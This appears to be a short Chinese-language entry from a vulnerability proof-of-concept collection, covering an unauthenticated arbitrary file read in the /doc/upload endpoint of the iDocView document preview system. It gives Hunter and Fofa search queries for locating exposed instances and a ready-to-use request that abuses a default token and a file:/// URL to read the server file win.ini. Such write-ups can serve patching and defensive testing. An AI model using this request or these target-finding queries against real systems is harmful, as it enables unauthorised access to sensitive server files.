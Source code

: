 ## iDocView upload接口任意文件读取
 iDocView是一个在线文档预览系统 /doc/upload 接口处存在任意文件读取漏洞，未授权的攻击者可以利用此接口并携带默认token读取服务器敏感文件信息，使系统处于极度不安全的状态。 

## 资产测绘
```
Hunter语法：
app.name="I Doc View"
Fofa语法：
title="I Doc View"
```

## poc
```
http://xxxxxx/doc/upload?token=testtoken&url=file:///C:/windows/win.ini&name=test.txt
```
![image](../../images/01f5a3a7-9cd3-45bc-beb0-5cd6ab800171.png)

![image](../../images/0e549cdd-9c98-41b5-874d-8a159cf3db19.png)
